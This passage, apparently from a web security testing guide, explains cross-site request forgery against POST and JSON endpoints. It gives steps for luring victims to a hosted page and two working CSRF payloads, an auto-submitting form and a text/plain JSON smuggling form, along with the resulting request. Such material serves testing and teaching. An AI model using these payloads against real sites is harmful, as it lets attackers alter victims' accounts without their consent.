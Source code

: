 Resources accessible via HTTP GET requests are easily vulnerable, though POST requests can be automated via Javascript and are vulnerable as well; therefore, the use of POST alone is not enough to correct the occurrence of CSRF vulnerabilities.

In case of POST, the following sample can be used.

1. Create an HTML page similar to that shown below
2. Host the HTML on a malicious or third-party site
3. Send the link for the page to the victim(s) and induce them to click it.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://tagetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

In case of web applications in which developers are utilizing JSON for browser to server communication, a problem may arise with the fact that there are no query parameters with the JSON format, which are a must with self-submitting forms. To bypass this case, we can use a self-submitting form with JSON payloads including hidden input to exploit CSRF. We'll have to change the encoding type (`enctype`) to `text/plain` to ensure the payload is delivered as-is. The exploit code will look like the following:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

The POST request will be as follow:

```html
POST / HTTP/1.1
Host: victimsite.com
Content-Type: text/plain

{"name":"hacked","password":"hacked","padding":"=something"}
```

When this data is sent as a POST request, the server will happily accept the name and password fields and ignore the one with the name padding as it does not need it.
